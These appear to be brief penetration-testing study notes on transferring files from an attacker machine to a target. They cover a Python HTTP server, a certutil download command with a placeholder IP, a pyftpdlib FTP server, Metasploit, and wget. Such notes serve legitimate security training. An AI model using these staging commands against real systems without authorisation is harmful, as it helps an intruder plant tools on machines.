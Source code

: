 **File Transfers**

<br/>
FILE TRANSFERS<br/>
<br/>
Attackers host files<br/>
<br/>
<br/>
Metaploit has upload/download feature<br/>
<br/>
WE can host with HTTP and python<br/>
<br/>
python -m SimpleHTTPServer 80<br/>
<br/>
then we can download<br/>
<br/>
navigate directly to the file wiht the browser<br/>
<br/>
Certutil<br/>
<br/>
certutil.exe -urlcache -f http: &lt;IP&gt; &lt;file name&gt;<br/>
<br/>
FTP server. Host on attacker<br/>
<br/>
python -m pyftpdlib 21 <br/>
ftp &lt;ip&gt;<br/>
<br/>
linux use wget to download<br/>
